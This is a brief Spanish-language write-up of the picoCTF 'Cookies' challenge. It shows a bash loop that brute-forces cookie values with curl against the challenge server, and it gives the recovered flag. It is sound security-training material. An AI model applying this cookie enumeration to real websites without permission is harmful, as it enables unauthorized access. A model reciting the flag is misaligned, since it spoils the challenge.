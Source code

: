 ### Cookies
## Objetivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:54219/](http://mercury.picoctf.net:54219/)
## Solución
```bash
macbookair@MacBook-Air-de-Aletsis notas_hack % for i in {0..20}; do curl -s http://mercury.picoctf.net:54219/check -H "Cookie: name=$i"; done | grep picoCTF

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p>

macbookair@MacBook-Air-de-Aletsis notas_hack %
```
## Notas adicionales

Se puede tambien resolver con la herramienta de kali de burp
Y junto con hacer un programa en python para hacer un exploit
## Bandera

picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}
